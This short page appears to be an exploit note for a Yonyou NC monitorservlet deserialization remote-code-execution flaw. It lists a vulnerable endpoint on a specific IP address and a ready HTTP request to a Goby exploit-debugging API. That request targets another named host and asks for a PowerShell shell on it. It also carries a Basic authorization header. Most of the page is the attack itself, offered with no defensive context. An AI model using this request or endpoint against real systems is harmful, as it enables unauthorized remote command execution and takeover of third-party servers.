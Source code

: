 # 用友 NC servicemonitorservlet 路由命令执行漏洞

    ## Yonyou NC MonitorServlet Deserialization RCE

```
http://101.39.241.53:22/service/monitorservlet
```

Goby_shell_powershell





```
POST /api/v1/debugExp HTTP/1.1
Content-Type: application/json;charset=UTF-8
Authorization: Basic dXNlcjpwYXNz
host: 82.156.29.211:8365
Connection: close
Content-Length: 127

{"hostinfo":"27.223.11.42:8787","vulfile":"Yonyou_NC_monitorservlet_RCE.go","expparams":{"AttackType":"goby_shell_powershell"}}
```
